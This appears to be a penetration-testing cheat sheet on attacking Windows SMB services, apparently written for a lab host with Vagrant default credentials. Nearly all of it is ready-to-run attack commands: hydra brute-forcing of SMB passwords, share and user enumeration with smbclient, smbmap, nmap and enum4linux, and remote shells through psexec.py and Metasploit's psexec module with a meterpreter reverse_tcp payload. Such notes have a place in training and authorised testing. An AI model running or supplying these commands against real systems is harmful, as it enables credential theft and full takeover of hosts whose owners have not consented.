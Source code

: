 # Exploiting SMB Methodology

#### BRUTEFORCING CREDENTIALS OF KNOWN USERS:

```
hydra -l vagrant -P /usr/share/wordlists/metasploit/unix_users.txt 10.5.28.241 smb
```

#### ENUMERATE AVAILABLE SHARES WITH OBTAINED CREDENTIALS:

```
smbclient -L 10.5.28.241 -U administrator
```

```
smbmap -u vagrant -p vagrant -H 10.5.28.241
```

#### ENUMERATING USERS ON THE TARGET:

```
nmap -p445 10.5.28.241 --script smb-enum-users --script-args smbusername='vagrant',smbpassword='vagrant' 
```

```
enum4linux -u vagrant -p vagrant -U 10.5.28.241
```

```
auxiliary/scanner/smb/smb_enumusers 
set RHOSTS 10.5.28.241
set SMBUSER vagrant
set SMBPASS vagrant
exploit
```

#### SPAWN A SHELL USING PSEXEC:

```
python3 psexec.py Administrator:vagrant@10.5.28.241
```

```
exploit/windows/smb/psexec  
set RHOSTS 10.5.28.241
set SMBUSER vagrant
set SMBPASS vagrant
set PAYLOAD windows/x64/meterpreter/reverse_tcp
exploit
```